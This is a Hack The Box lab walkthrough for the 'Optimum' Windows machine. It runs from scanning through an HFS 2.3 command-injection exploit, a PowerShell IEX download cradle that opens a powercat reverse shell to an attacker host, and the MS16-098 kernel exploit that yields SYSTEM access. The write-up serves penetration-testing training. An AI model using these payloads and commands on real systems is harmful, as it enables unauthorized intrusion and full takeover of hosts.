

# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [HttpFileServer httpd 2.3](#httpfileserver-httpd-23)
- [Foothold](#foothold)
	- [HttpFileServer 2.3 Command Injection](#httpfileserver-23-command-injection)
	- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
	- [RGNOBJ Integer Overflow](#rgnobj-integer-overflow)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

Port 80 is running service HttpFileServer version 2.3.



Search public exploit

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer 2.3 Command Injection

Using exploit `windows/webapps/49125.py` to sent command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

This exploit successfully execute command ping in the server

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

## Privilege Escalation

### RGNOBJ Integer Overflow

Enum systeminfo in the server and save the output to file `win-server-2012-6.3.9600.txt`

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Check the output using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

With System Type is x64-based, the vunerable `MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466)` may work in the server. Let's download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Upload file `41020.exe` to windows Server using power shell

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

Execute file `41020.exe` and we have system.

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```